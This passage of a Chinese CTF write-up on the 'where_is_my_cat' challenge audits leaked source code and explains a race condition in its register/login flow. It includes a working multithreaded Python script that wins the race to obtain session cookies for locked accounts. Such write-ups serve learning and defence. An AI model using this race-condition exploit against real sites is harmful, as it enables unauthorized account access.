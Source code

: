 我们需要修改本地host，将where_is_my_cat.ichunqiu.com指向题目地址。在COOKIE中还会看到HOST字段，也把它设置成where_is_my_cat.ichunqiu.com，然后就可以正常访问网站了。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084754-35bedfe6-8f07-1.png)

我们会发现网站底部有一个/source_code_version_1.tgz ，下下来审计。这里主要发现两个漏洞点。

**第一个点：竞争漏洞**

首先我们看下面注册和登录两段代码，注册的时候会执行两条SQL语句，其中一条会将locked字段设置为1。而登录的时候，会判断用户所对应的locked字段。如果为1，则表示用户被锁定并直接退出程序。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084805-3c6aab54-8f07-1.png)

这样看来，好像我们即使注册了用户，也无法登录进去。但是，如果我们开启多个线程同时注册登录，那么就有可能登录进去，这就利用了竞争漏洞。我们在对数据进行增删改的时候，要给它加一把锁，避免此时用户读到脏数据（本该读取修改后的值，却读取了修改前的值）。关于竞争漏洞的解释，还可以参考这篇文章： [https://seaii-blog.com/index.php/2017/04/26/49.html](https://seaii-blog.com/index.php/2017/04/26/49.html)

而上面的代码，我们可以通过多线程的方式，同时进行注册和登录，在执行update locked之前查询用户的 locked 字段，，从而拿到用户的cookie信息。具体代码如下：

```
import requests,time
import threading,random
reg_url = "https://where_is_my_cat.ichunqiu.com:8006/checkregister.php"
log_url = "https://where_is_my_cat.ichunqiu.com:8006/checklogin.php"
cookies = {
    "HOST" : "where_is_my_cat.ichunqiu.com"
}
def register(username,password):
    data = {
        "username" : username,
        "password" : password,
        "code" : int(time.time())
    }
    r = requests.post(url=reg_url, data=data, cookies=cookies, verify=False)

def login(username,password):
    data = {
        "username" : username,
        "password" : password,
    }
    s = requests.session()
    r = s.post(url=log_url, data=data, cookies=cookies, verify=False)
    print("===============================================================\n")
    print(r.cookies)
    print("===============================================================\n\n")

while True:
    username = "moch33" + str(random.randint(1,100000))
    threading.Thread(target=register, args=(username,"mochazz")).start()
    threading.Thread(target=login, args=(username,"mochazz")).start()
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084812-408f84e8-8f07-1.png)
